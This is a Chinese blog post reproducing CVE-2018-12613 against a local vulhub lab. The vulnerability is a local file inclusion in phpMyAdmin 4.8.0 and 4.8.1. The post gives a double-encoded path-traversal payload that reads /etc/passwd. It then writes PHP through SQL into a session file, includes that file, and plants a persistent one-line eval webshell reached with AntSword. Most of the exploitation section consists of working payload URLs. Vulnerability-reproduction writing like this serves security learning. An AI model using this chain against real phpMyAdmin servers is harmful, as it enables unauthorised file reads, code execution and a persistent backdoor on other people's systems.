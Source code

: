 ```yaml
---
layout:     post             
title:      CVE-2018-12613 漏洞复现
date:       2021-07-14            
author:     suleo                  
head-img:   img/unix-linux.jpg
catalog: true                      
tags:      
   - 漏洞复现
typora-root-url: ../img/cve-2018-12613
---
```


## CVE-2018-12613 本地文件包含漏洞详解

### 前言

phpMyAdmin是phpMyAdmin团队开发的一套免费的、基于Web的MySQL数据库管理工具。该工具能够创建和删除数据库，创建、删除、修改数据库表，执行SQL脚本命令等。 

> 漏洞影响范围 phpmyadmin 4.8.0 & 4.8.1

### 漏洞原理

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码并且执行。

- 文件包含相关函数，代码审计时可关注如下几个函数

~~~
require()          # 函数出现错误的时候，会直接报错并退出程序的执行
require_once()     # 只包含一次
include()          # 在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
include_once()     # 只包含一次
~~~

- 在存在漏洞的phpmyadmin的源代码的index.php中, 就出现了include函数

![image-20230716222403963](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/index_php.jpg)

- 根据上图，我们需要绕过前面几行条件的限制，条件如下

  - target参数不能为空
  - target参数必须为字符串
  - target 参数不能以index开头

  - target 参数不能出现在 $target_blacklist 内

    - 找到target_blacklist定义如下![image-20230716224109344](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/taeget_blacklist.png)

  - 参数必须通过白名单验证

    - Core::checkPageValidity($_REQUEST['target'])，我们查看Core类checkPageValidity方法源代码

    ![image-20230716230259840](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/core_check.png)

    - 白名单部分如下图所示

    ![截屏2023-07-16 23.31.44](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/whiteliat.png)

    - 所以利用二次编码“%253f”可以绕过checkPageValidity()的检查！

  - 构造payload

    > 由于二次解码只是在checkPageValidity()中执行的，在index.php中只做过一次解码

    1. checkPageValidity二次解码后,这个符合白名单验证，问号之前的文件在白名单之内
           

       ```
       /index.php?target=db_sql.php?/../../../../../../../../etc/passwd
       ```

    2. 绕过验证后，index.php一次解码后，如下所示，可以实现任意路径的文件访问
           

       ```
       /index.php?target=db_sql.php%3f/../../../../../../../../etc/passwd
       ```

    3. 最终payload

       ```
       /index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
       ```

### 漏洞验证

**复现环境： /vulhub/phpmyadmin/CVE-2018-12613**

```
# 切换到目标文件夹内,写你自己的路径
cd  /opt/vulhub/phpmyadmin/CVE-2018-12613 

# 拉取并启动容器
docker compose up -d

# 浏览器访问
http://localhost:8080

# 漏洞验证访问,/etc/passwd被读取，说明文件包含漏洞存在
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![截屏2023-07-16 23.13.27](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/etc_passwd.png)

### 漏洞利用

> 现在我们已经可以读取站点本地文件，那我们如何利用本地文件包含漏洞获取权限呢,？我们能写入一个webshell吗？ 咋写呢？
>
> ​	maybe可以试试session, php session文件可以存储会话的一些信息，我们来试试

- **执行 SQL语句 `SELECT '<?php phpinfo(); ?>'**

![image-20230717002336143](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/phpinfo.png)

- **根据session id查看session文件， cat /tmp/sess_06f6516222139397dee258dd594e5018**

![image-20230717002139736](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/session1.png)

- **包含session文件**

```
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_06f6516222139397dee258dd594e5018
```

​		成功包含session文件并执行了phpinfo![截屏2023-07-17 00.40.36](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/session.png)

- **既然可以通过session文件执行代码，那我们是否可以试试写入一句话木马**

```

# 通过sql查询写入一句话木马到session文件
	select "<?php @eval($_GET['s']);?>"
	
# 根据session id访问session文件，测试参数 s 是否能够成功执行命令
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c?s=phpinfo();
```

​		成功执行phpinfo();

![截屏2023-07-17 01.17.45](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/arg_s.png)

- **写webshell**

~~~
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c&s=fputs(fopen(%27x.php%27,%27w%27),%27%3C?php%20@eval($_POST[pass])?%3E%27);
~~~

查看web目录下是否成功写入， cat /var/www/html/x.php, 已成功写入一句话木马

![截屏2023-07-17 01.23.08](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/w_eval.png)

蚁剑连接一句话木马

![截屏2023-07-17 01.25.38](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/test_connect.png)

成功获取shell

![截屏2023-07-17 01.25.17](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/getshell.png)